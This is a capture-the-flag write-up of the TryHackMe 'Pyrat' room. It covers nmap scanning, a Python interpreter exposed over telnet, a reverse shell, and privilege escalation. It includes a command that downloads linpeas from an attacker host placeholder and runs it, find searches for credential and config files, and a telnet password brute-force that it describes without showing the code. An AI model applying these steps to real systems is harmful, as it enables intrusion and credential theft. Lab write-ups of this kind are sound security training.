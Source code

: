TryHackMe – Pyrat | Full Walkthrough & Management Summary

🧠 Initial Recon: Scanning with Nmap

Before making assumptions, I launched a full version detection and OS scan:

nmap -A 10.10.16.135

Key Results:

    Port 22 (SSH): OpenSSH 8.2p1

    Port 8000 (HTTP-alt): Python SimpleHTTPServer 0.6 running Python 3.11.2

The absence of ports 80/443 hinted toward an unconventional interface. Given Python 3.11.2 was in play, I suspected potential RCE vectors or unsafe evals.
🌐 Web Exploration & Strange Message

Navigating to http://10.10.16.135:8000 resulted in the message:

    “Try a more basic connection!”

Curl and Burp Suite provided no additional information. Every request returned the same message. So, I pivoted to more primitive protocols.
📟 Telnet to the Rescue

Telneting to the same port gave more dynamic responses. Python-style input errors suggested an interpreter was being exposed directly. With a bit of trial and error, I crafted a minimal reverse shell payload without using python -c, and finally got a working connection.
⚙️ Shell Access & Enumeration

The reverse shell was unstable and had minimal privileges, but by pivoting directories away from /root to /home, I was able to escalate my view. Using linpeas.sh via a temporary Python HTTP server, I began enumerating the environment.

python3 -m http.server 80
wget http://<attacker_ip>/linpeas.sh -O /tmp/linpeas.sh
chmod +x linpeas.sh && ./linpeas.sh

🗃️ Discovering Sensitive Files

A manual search using find revealed interesting files:

find / -iname "*cred*" 2>/dev/null
find / -iname "*config*" 2>/dev/null

Eventually, /opt/ held a Git repo containing a deleted script: pyrat.py.old.

Using Git commands, I restored the deleted file:

git checkout pyrat.py.old

🔓 Privilege Escalation to Root

The restored Python file hinted at an admin-only endpoint accessible via Telnet. But to access it, a password was required.
✅ Bruteforcing via Custom Script

Telnet made scripting complex, as the ‘admin’ string had to be sent before any password prompt. After multiple iterations and leveraging ChatGPT to assist with logic, I crafted a custom brute-force script that uncovered the password and authenticated successfully.
